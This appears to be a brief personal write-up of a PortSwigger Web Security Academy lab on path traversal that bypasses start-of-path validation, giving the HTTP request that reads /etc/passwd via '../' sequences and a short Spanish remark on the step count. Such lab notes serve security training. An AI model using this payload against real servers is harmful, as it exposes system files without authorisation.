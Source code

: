 # 5 - Validation of start of path

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

![](../../.gitbook/assets/imagen%20%28634%29.png)

```text
GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/1.1
```

Recordar que nos queremos paarar en la base folder desp de images, entonces son 4 backs


